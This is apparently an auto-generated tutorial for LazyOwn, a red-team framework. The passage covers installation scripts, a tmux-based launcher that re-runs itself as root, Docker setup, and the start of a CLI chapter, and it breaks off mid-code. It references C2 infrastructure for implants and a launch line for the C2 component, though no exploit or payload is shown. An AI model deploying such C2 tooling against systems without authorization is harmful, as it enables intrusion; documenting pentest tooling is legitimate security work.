









# Tutorial: LazyOwn

LazyOwn is a **RedTeam Framework** that provides a unified interface for pentesting tasks.
Its core is a *command-line interface (CLI)* where users control various *modules and commands*.
It manages *parameters and session state*, includes a *C2 infrastructure* for implants,
integrates *AI* for assistance, supports *addons and plugins* for extensibility,
has *deployment scripts*, and generates *documentation and reports*.


## Visual Overview



## Chapters

1. [Deployment & Setup
](01_deployment___setup_.md)
2. [CLI Framework
](02_cli_framework_.md)
3. [Modules & Commands
](03_modules___commands_.md)
4. [Parameters & Session Management
](04_parameters___session_management_.md)
5. [Documentation & Reporting
](05_documentation___reporting_.md)
6. [C2 Infrastructure
](06_c2_infrastructure_.md)
7. [AI Integration
](07_ai_integration_.md)
8. [Addon & Plugin System
](08_addon___plugin_system_.md)

# Chapter 1: Deployment & Setup

Welcome to the first chapter of the LazyOwn tutorial! Before we dive into all the powerful things LazyOwn can do, we first need to get it onto your computer and ready to run. This process is often called **Deployment & Setup**.

Think of it like getting a new toolset. You wouldn't start fixing something right away. First, you need to:
1.  **Install** the tools (make sure you have everything you need).
2.  **Organize** them (put them in the right places, maybe set up your workspace).
3.  **Prepare** your workbench (make sure it's stable and ready).

Deployment & Setup for LazyOwn is exactly like that! It's all about the steps and scripts needed to install LazyOwn, gather its dependencies (like other software it needs to work), create necessary folders, and set things up so you can start using it easily. It even includes ways to get LazyOwn running automatically or in a contained environment.

Our goal in this chapter is simple: **Get LazyOwn installed and running on your system for the first time.**

Let's look at how you can do that.

LazyOwn provides a couple of ways to get set up:

1.  **Manual Installation:** Using a script to install dependencies directly on your system (recommended for getting started quickly on Linux).
2.  **Docker Container:** Using Docker to run LazyOwn in an isolated environment (good for consistency and not cluttering your main system).

We'll cover both methods.

## Method 1: Manual Installation & Running

This is often the quickest way to get started on a Linux system (like Kali Linux or Ubuntu), which is where LazyOwn is designed to run.

### Step 1: Get the Code

LazyOwn's code is stored in a Git repository. You'll need `git` installed on your system. Most security-focused distributions already have it.

Open your terminal and run this command to download the code:

```bash
git clone https://github.com/grisuno/LazyOwn.git
```

This command tells `git` to download the entire LazyOwn project into a new folder named `LazyOwn` in your current directory.

Now, navigate into the project folder:

```bash
cd LazyOwn
```

### Step 2: Run the Installation Script

Inside the `LazyOwn` folder, you'll find a script called `install.sh`. This script automates most of the setup steps for you.

Let's look at parts of it:

```bash
#!/bin/bash
sudo apt update
sudo apt install ltrace python3-xyzservices python3-venv nmap xsltproc # Install system packages
python3 -m venv env # Create a Python Virtual Environment
source env/bin/activate # Activate the virtual environment
# pip3 install -r requirements.txt # (Original approach, now installing one by one)
pip3 install requests # Install Python libraries
pip3 install python-libnmap
# ... many more pip3 install commands ...
mkdir vpn # Create necessary directories
mkdir banners
mkdir -p sessions/logs
# ... code to download external scripts ...
```

This script does a few key things:

*   `sudo apt update` and `sudo apt install ...`: It updates your system's package list and installs some necessary tools like `nmap` and `ltrace`. It uses `sudo` because installing system packages requires administrator privileges.
*   `python3 -m venv env`: This creates a **Python Virtual Environment**. Think of a virtual environment as an isolated container just for LazyOwn's Python libraries. This is great because it means LazyOwn's specific library requirements won't interfere with other Python projects on your system, and vice-versa.
*   `source env/bin/activate`: This command activates the virtual environment. Your terminal prompt might change to show you're inside the `env` environment. Now, any `pip3 install` command you run will install libraries *inside* this isolated environment, not globally on your system.
*   `pip3 install ...`: It installs all the Python libraries that LazyOwn needs to run. The original script used a `requirements.txt` file, but the current version installs them one by one. These libraries provide various functionalities, like making network requests, interacting with databases, and handling specific data formats.
*   `mkdir ...`: It creates necessary directories that LazyOwn uses to store data, logs, and session information.
*   Code to download external scripts: It fetches some additional Python scripts needed by modules.

To run the installation script, make sure you are in the `LazyOwn` directory in your terminal and execute:

```bash
bash install.sh
```

You might be asked for your password because of the `sudo` commands. Let the script finish. It might take a few minutes depending on your internet speed and system.

Once it completes, LazyOwn is installed and its dependencies are set up within its virtual environment!

### Step 3: Run LazyOwn

Now that LazyOwn is installed, how do you start it? You could activate the virtual environment (`source env/bin/activate`) and run the main script (`python3 lazyown.py`), but LazyOwn provides helper scripts for easier startup, especially because some functions require root privileges and it often runs multiple components at once.

One such helper is `fast_run_as_r00t.sh`. Let's look at a simplified version:

```bash
#!/bin/bash

# ... variable definitions and dependency checks ...

check_sudo() {
    if [ "$EUID" -ne 0 ]; then
        echo "[S] This script will reload as r00t ..."
        sudo "$0" "$@" # Re-run the script using sudo
        exit # Exit the current non-root process
    fi
    # If we are root, continue below
}

# ... argument parsing ...

check_sudo "$@" # Check if root and re-run if necessary

# ... key.py and file setup ...

tmux new-session -d -s $SESSION # Start a new detached tmux session

# Run various LazyOwn components in tmux panes
tmux send-keys -t $SESSION "sleep 5 && bash -c './run'" C-m # Start LazyOwn's main CLI
tmux split-window -v # Split the window vertically
tmux send-keys -t $SESSION "sleep 5 && bash -c './run -c ping'" C-m # Run a ping command
# ... many more tmux send-keys commands for other components ...

tmux select-pane -t 5 # Select a specific pane
tmux attach -t $SESSION # Attach to the tmux session to see the output
```

Here's what this script does:

*   `check_sudo()`: This clever function checks if the script is currently running as the root user (`$EUID -ne 0`). If not, it prints a message and re-runs itself using `sudo`, passing along any command-line arguments. This ensures that parts of LazyOwn requiring root can function correctly without you having to manually use `sudo` every time.
*   `tmux new-session -d -s $SESSION`: This starts a new **tmux** session. Tmux is a terminal multiplexer, allowing you to create and manage multiple terminal windows and panes within a single terminal session. This script uses tmux to start various parts of LazyOwn (like the main command line interface, background tasks, C2 servers) in different, easily switchable panels. The `-d` means it starts detached (in the background initially).
*   `tmux send-keys -t $SESSION "..." C-m`: These commands are like typing into each of the tmux panes. They tell a specific pane (`-t $SESSION`) to run a command (like `bash -c './run'`) and then press Enter (`C-m`). `./run` is another helper script that activates the virtual environment and runs the main `lazyown.py` script, often passing commands using the `-c` flag.
*   `tmux split-window -v`/`-h`: These commands divide the current tmux pane into two new panes, either vertically or horizontally, creating the multi-panel layout you'll see.
*   `tmux attach -t $SESSION`: After setting up all the panes, this command attaches your current terminal to the tmux session, allowing you to see and interact with the running LazyOwn components.

To run LazyOwn using this script, navigate back to the `LazyOwn` directory if you aren't there, and run:

```bash
bash fast_run_as_r00t.sh
```

Since the script handles the `sudo` part itself, you don't need to type `sudo` before this command, but you will likely be prompted for your password by the `check_sudo` function.

After running, you should see a multi-pane terminal window showing LazyOwn starting up various services and interfaces. You've successfully deployed and run LazyOwn manually!

### Under the Hood: Manual Setup Flow

Let's visualize the manual installation process simply:



And the running flow with `fast_run_as_r00t.sh`:



## Method 2: Using Docker

If you prefer not to install dependencies directly on your system or want a consistent environment regardless of your operating system (as long as it runs Docker), you can use the provided Docker setup.

Docker packages LazyOwn and all its dependencies into a self-contained "container". Think of a Docker container like a standardized shipping container – it has everything it needs inside, and it runs the same way whether it's on your laptop, a server, or in the cloud.

LazyOwn includes scripts in the `lazyown-docker` directory to help you build and run the Docker image.

### Step 1: Build the Docker Image

Navigate into the docker directory:

```bash
cd lazyown-docker
```

You'll find `mkdocker.sh`. This script is used to manage the LazyOwn container.

Let's look at the build command part of `mkdocker.sh`:

```bash
# Inside mkdocker.sh
build_image() {
    log "Building LazyOwn Docker image..."
    check_file "$DOCKERFILE" # Check if Dockerfile exists
    validate_payload # Check payload.json
    docker build -t "$IMAGE_NAME" --build-arg REPO_URL="$REPO_URL" --build-arg REPO_COMMIT="$REPO_COMMIT" -f "$DOCKERFILE" .
    # ... success/failure messages ...
}

# ... argument parsing calls build_image ...
case "$COMMAND" in
    build)
        build_image
        ;;
    # ... other commands ...
esac
```

The core command here is `docker build`. This command reads instructions from a `Dockerfile.dockerfile` (a recipe for creating the image) and builds the Docker image. The `-t "$IMAGE_NAME"` tags the image with a name (`lazyown` by default) so you can easily refer to it later. It also uses build arguments to specify which version of the LazyOwn code to include.

Before building, this script also calls `validate_payload()`. LazyOwn uses a `payload.json` file to store configuration details, especially for the Docker setup and C2 features. This file is important as it tells the Docker container how to configure LazyOwn on startup. You'll need this file present in the same directory as `mkdocker.sh`.

To build the image, make sure you are in the `lazyown-docker` directory and run:

```bash
bash mkdocker.sh build
```

This will download the necessary base image, copy the LazyOwn code, install dependencies *inside* the image, and configure it. This might take a while the first time.

### Step 2: Run the Docker Container

Once the image is built, you can run a container from it. The `mkdocker.sh` script also handles this.

Let's look at the run command part of `mkdocker.sh`:

```bash
# Inside mkdocker.sh
run_container() {
    local vpn_mode="$1"
    log "Starting LazyOwn container..."
    validate_payload # Check payload.json again

    # ... read config from payload.json into environment variables ...

    # Get ports to expose from payload.json or use defaults
    PORTS=($(get_ports))
    PORT_MAPPINGS=""
    for port in "${PORTS[@]}"; do
        PORT_MAPPINGS="$PORT_MAPPINGS -p $port:$port" # Map container port to host port
    done

    if container_exists "$CONTAINER_NAME"; then # Check if container already exists
        log "Container '$CONTAINER_NAME' already exists. Starting it..."
        docker start "$CONTAINER_NAME" # Just start it if stopped
        docker exec -it "$CONTAINER_NAME" bash -c "/home/lazyown/entrypoint.sh --vpn $vpn_mode" # Execute entrypoint script
    else
        # Build image if not already built
        if ! image_exists "$IMAGE_NAME"; then build_image; fi
        log "Creating and running container '$CONTAINER_NAME'..."
        docker run -d --name "$CONTAINER_NAME" \
            --cap-drop=ALL \
            --security-opt=no-new-privileges \
            --read-only \
            --tmpfs /tmp \
            --tmpfs /var/log \
            $PORT_MAPPINGS \ # Add port mappings
            -v "$CURRENT_DIR/payload.json:/home/lazyown/payload.json:ro" \ # Mount payload.json
            -e C2_PORT="$C2_PORT" \ # Pass config as environment variables
            -e RHOST="$RHOST" \
            # ... many more -e flags ...
            "$IMAGE_NAME" # Specify the image to use
        docker exec -it "$CONTAINER_NAME" bash -c "/home/lazyown/entrypoint.sh --vpn $vpn_mode" # Execute entrypoint script
    fi
}

# ... argument parsing calls run_container ...
case "$COMMAND" in
    # ... build and stop/clean cases ...
    run)
        run_container "$VPN_MODE"
        ;;
    *)
        usage
        ;;
esac
```

This script performs several actions when you run it with the `run` command:

*   It checks if a container with the specified name already exists. If yes, it just starts it. If not, it creates a new one.
*   `docker run`: This is the main command to create and start a new container.
    *   `-d`: Runs the container in "detached" mode (in the background).
    *   `--name "$CONTAINER_NAME"`: Assigns a memorable name to the container.
    *   `--cap-drop=ALL`, `--security-opt=no-new-privileges`, `--read-only`, `--tmpfs /tmp`, `--tmpfs /var/log`: These are security options that limit what the container can do, which is good practice.
    *   `$PORT_MAPPINGS`: This part maps ports from *inside* the container to ports on your *host* machine, allowing you to access LazyOwn's web interfaces or services from your regular browser or tools. The specific ports come from the `payload.json` file or a default list.
    *   `-v "$CURRENT_DIR/payload.json:/home/lazyown/payload.json:ro"`: This "mounts" your local `payload.json` file into the container at a specific path, making your configuration available inside. `:ro` means it's read-only inside the container.
    *   `-e NAME=VALUE`: These flags pass configuration values from your `payload.json` as environment variables into the container. The entrypoint script inside the container reads these.
    *   `"$IMAGE_NAME"`: Specifies which Docker image to use to create the container.
*   `docker exec -it "$CONTAINER_NAME" bash -c "/home/lazyown/entrypoint.sh --vpn $vpn_mode"`: After the container is running, this command executes the `entrypoint.sh` script *inside* the container.

The `entrypoint.sh` script (located in the `lazyown-docker` folder) is what actually starts the LazyOwn components *inside* the Docker container. It does something very similar to `fast_run_as_r00t.sh` by using `tmux` to run various LazyOwn parts in different panes, but it runs *as the default user inside the container* and uses the environment variables passed by `mkdocker.sh run` for configuration.

```bash
# Inside lazyown-docker/entrypoint.sh
#!/bin/bash

# ... dependency checks ...

# Read environment variables (set by dockerizer.sh)
: "${C2_PORT:?Missing C2_PORT}" # Ensure required variables are set
# ... reading other variables ...

# Start tmux session inside the container
tmux new-session -d -s "$SESSION"

# Run LazyOwn components using the passed environment variables
tmux send-keys -t "$SESSION" "sleep 5 && ./run -c 'c2 no_priv $OS_ID' ${ENABLE_CF:+1}" C-m
# ... split windows and send keys for other components based on ENABLE_* flags ...

# Attach to tmux session inside the container
tmux select-pane -t 5
tmux attach -t "$SESSION"
```

To run LazyOwn using Docker, make sure you are in the `lazyown-docker` directory, have the `payload.json` file configured, and run:

```bash
bash mkdocker.sh run
```

You can also specify the VPN mode if needed, e.g.:

```bash
bash mkdocker.sh run --vpn 2
```

(Note: The `--vpn` flag handling exists in `mkdocker.sh` and `fast_run_as_r00t.sh`, allowing you to tell LazyOwn which VPN connection profile to try and manage. This relates to the `vpn` command which we'll see later, possibly in [Modules & Commands](03_modules___commands_.md)).

Just like the manual method, this should attach you to a tmux session, but this time, everything is running within the isolated Docker container.

### Under the Hood: Docker Setup Flow

Here's a simplified view of the Docker approach:



### Comparing Deployment Methods

Here's a quick comparison of the two main methods:

| Feature         | Manual Installation (`install.sh` + `fast_run_as_r00t.sh`) | Docker (`mkdocker.sh`)                      |
| :-------------- | :----------------------------------------------------------- | :------------------------------------------ |
| **Ease of Start** | Very easy if you have basic Linux/Bash knowledge.            | Requires Docker installed & understanding.  |
| **System Impact** | Installs packages and libraries directly on your system.     | Runs in isolation, keeps host system clean. |
| **Consistency** | Can vary slightly depending on your specific Linux setup.      | Highly consistent across different systems. |
| **Configuration** | Relies on file structure, uses `payload.json` during run.    | Uses `payload.json` and environment variables. |
| **Dependencies**| Installs directly on host.                                   | Bundled inside the container image.         |
| **Use Case**    | Quick setup on a dedicated testing machine (like a VM).      | Production use, CI/CD, development consistency. |

For a beginner just exploring LazyOwn on a virtual machine dedicated to penetration testing, the manual installation is often the most straightforward path to get up and running quickly. The Docker method offers benefits for more advanced users or specific environments.

## Conclusion

In this chapter, you learned how to deploy and set up LazyOwn using two primary methods: manual installation via `install.sh` and running with `fast_run_as_r00t.sh`, and using the Docker setup with `mkdocker.sh`.

You now have LazyOwn installed and running, likely presented with a multi-pane terminal interface powered by tmux, ready for interaction.

With LazyOwn successfully deployed, the next step is to understand how to actually *use* it. LazyOwn is primarily controlled via a command-line interface (CLI). The next chapter will introduce you to this interface and how you interact with it.

Let's move on to [Chapter 2: CLI Framework](02_cli_framework_.md)!

# Chapter 2: CLI Framework

Welcome back to the LazyOwn tutorial! In [Chapter 1: Deployment & Setup](01_deployment___setup_.md), you learned how to get LazyOwn installed and running on your system. You likely saw a multi-pane terminal appear, powered by `tmux`, with one of those panes showing a command prompt like this:

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ #
```

This is the heart of LazyOwn – its Command-Line Interface, or **CLI**. Think of it as the control panel or the cockpit where you tell LazyOwn what you want it to do.

Just like a pilot uses controls in a cockpit to fly a plane, you'll use commands in this CLI to perform penetration testing tasks. Instead of pushing buttons or pulling levers, you'll type commands like `run`, `assign`, `list`, and many others.

But what makes this command line work? How does LazyOwn understand what you type and run the right function? This is where the **CLI Framework** comes in.

## What is a CLI Framework?

A **framework** in programming is like a pre-built structure or skeleton for a project. It gives you the basic tools and organization so you don't have to build everything from scratch.

A **CLI Framework**, specifically, provides the tools needed to easily build a command-line interface. Instead of writing code to:

*   Show a prompt (`┌─[LazyOwn...]`)
*   Read your input (what you type)
*   Figure out which command you meant (parsing)
*   Find the right piece of code to run for that command
*   Handle errors if you type something wrong
*   Provide helpful features like command history or tab completion

...the framework handles most of that for you! You just need to define what commands you want and what code should run when they are used.

LazyOwn uses a powerful Python library called `cmd2` as its CLI Framework.

## Introducing `cmd2`

`cmd2` is the engine that powers LazyOwn's interactive shell. It takes care of the low-level details so the LazyOwn developers can focus on building the useful penetration testing features.

Think of `cmd2` as the dashboard, steering wheel, and pedals of our cockpit. You interact with these standard components, and they translate your actions into instructions for the plane's (LazyOwn's) specific systems.

Here are some things `cmd2` automatically gives you:

*   **Command Parsing:** It breaks down the line you type into a command name and any arguments (parameters) you provide.
*   **Help System:** You can type `help` to see available commands, or `help <command>` to get details on a specific one (if the command is documented).
*   **History:** Use the up/down arrows to cycle through previous commands.
*   **Tab Completion:** Press `Tab` to auto-complete commands or filenames.
*   **Running Shell Commands:** You can often prefix a command with `!` (like `!ls`) to run it directly in your system's shell without leaving LazyOwn.

## Interacting with the CLI (The Cockpit)

When you run LazyOwn (using `./run` or `bash fast_run_as_r00t.sh` as shown in [Chapter 1: Deployment & Setup](01_deployment___setup_.md)), you are dropped into the `cmd2`-powered shell.

You'll see the prompt, which might look something like this (the IP address and hostname might change based on your network, as shown in the `utils.py` code):

```bash
┌─[LazyOwn👽10.0.0.1/kali]
└╼ #
```

This prompt is generated by a function in `utils.py` called `getprompt`. Looking at the `utils.py` code provided, you can see how it tries to find your IP address (`get_network_info`) and adjusts the prompt character (`#` for root, `$` for non-root):

```python
# --- Simplified from utils.py ---
def getprompt():
    """Generate a command prompt string..."""
    network_info = get_network_info()
    # ... (logic to find IP) ...
    ip = '127.0.0.1' # Simplified example IP
